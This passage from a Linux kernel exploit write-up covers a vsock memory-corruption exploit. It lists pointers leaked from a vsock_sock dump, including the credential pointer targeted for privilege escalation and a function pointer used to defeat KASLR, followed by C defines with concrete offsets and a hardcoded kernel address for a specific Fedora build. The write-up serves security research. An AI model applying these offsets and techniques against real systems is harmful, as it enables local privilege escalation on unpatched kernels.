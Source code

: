 <center><img src="/img/chest_loot.jpg" width="60%"></center><br/>

Here's what I found inside:
 * Plenty of pointers to objects from dedicated slab caches, such as `PINGv6` and `sock_inode_cache`. These are not interesting.
 * `struct mem_cgroup *sk_memcg` pointer living in `vsock_sock.sk` at offset **664**. The `mem_cgroup` structure is allocated in the `kmalloc-4k` slab cache. Good!
 * `const struct cred *owner` pointer living in `vsock_sock` at offset **840**. It stores the address of the credentials that I want to overwrite for privilege escalation.
 * `void (*sk_write_space)(struct sock *)` function pointer in `vsock_sock.sk` at offset **688**. It is set to the address of the `sock_def_write_space()` kernel function. That can be used for calculating the `KASLR` offset.

Here is how the exploit extracts these pointers from the memory dump:

```c
#define MSG_MSG_SZ		48
#define DATALEN_MSG 		(PAGE_SIZE - MSG_MSG_SZ)
#define SK_MEMCG_OFFSET 	664
#define SK_MEMCG_RD_LOCATION	(DATALEN_MSG + SK_MEMCG_OFFSET)
#define OWNER_CRED_OFFSET	840
#define OWNER_CRED_RD_LOCATION	(DATALEN_MSG + OWNER_CRED_OFFSET)
#define SK_WRITE_SPACE_OFFSET	688
#define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)

/*
 * From Linux kernel 5.10.11-200.fc33.x86_64:
 *   function pointer for calculating KASLR secret
 */
#define SOCK_DEF_WRITE_SPACE	0xffffffff819851b0lu

unsigned long sk_memcg = 0;
```